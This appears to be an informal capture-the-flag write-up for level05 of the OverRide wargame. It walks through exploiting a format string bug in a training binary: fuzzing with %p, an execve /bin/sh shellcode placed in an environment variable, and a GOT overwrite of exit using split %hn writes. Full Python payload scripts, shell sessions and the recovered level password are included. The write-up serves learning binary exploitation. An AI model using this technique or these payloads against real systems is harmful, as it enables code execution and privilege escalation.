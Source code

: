 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

level05@OverRide:~$ ./level05
AbCdE
abcde

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
call   0x8048370 <exit@plt>

(gdb) x 0x8048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

```
export shellcode=$(python -c 'print "\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII. If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

```
define hook-stop
   x/10i $eip
   echo "\n--------------------\n"
   x/x 0x80497e0

r

=> 0x8048507 <main+195>:	call   0x8048340 <printf@plt>
   0x804850c <main+200>:	movl   $0x0,(%esp)
   0x8048513 <main+207>:	call   0x8048370 <exit@plt>
--------------------
"0x80497e0 <exit@got.plt>:	0x08048376

ni

--------------------
"0x80497e0 <exit@got.plt>:	0xffffdd00

```


```

#shell = 0xffffdea0

import struct

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)
print exit_addr  + "%56984d%10$n" + "%8543d%11$n"

python /tmp/pyload.py > /tmp/pyload
level05@OverRide:~$ cat /tmp/pyload
%56984d%10$n%8543d%11$n
level05@OverRide:~$ (cat /tmp/pyload; cat) | ./level05 > /dev/null
```

more organized syntax

```py
import struct

shell_addr = 0xffffdea0

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)

shell_msb = shell_addr >> 16
shell_lsb = shell_addr & 0xffff


print exit_addr  + "%" + str(shell_lsb - 8) + "d%10$hn" + "%" + str(shell_msb - shell_lsb) + "d%11$hn"
```

```
python /tmp/pyload.py > /tmp/pyload

level05@OverRide:~$ (cat /tmp/pyload; cat) | ./level05 > /dev/null
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
